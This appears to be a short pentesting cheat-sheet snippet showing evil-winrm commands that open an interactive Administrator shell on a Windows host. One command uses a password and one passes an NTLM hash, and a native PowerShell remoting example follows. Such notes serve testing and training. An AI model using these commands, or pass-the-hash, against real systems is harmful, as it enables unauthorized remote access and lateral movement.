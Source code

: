 ```bash
# evil-winrm (interactive shell)
evil-winrm -i 10.0.0.5 -u Administrator -p 'Password123'

# Using NTLM hash
evil-winrm -i 10.0.0.5 -u Administrator -H '8846f7eaee8fb117ad06bdd830b7586c'

# Native PowerShell remoting (Windows host)
Enter-PSSession -ComputerName 10.0.0.5 -Credential (Get-Credential)
```

**Transport Stack:**  
`HTTP(S) → WinRM (WS-Man SOAP) → PowerShell Remoting`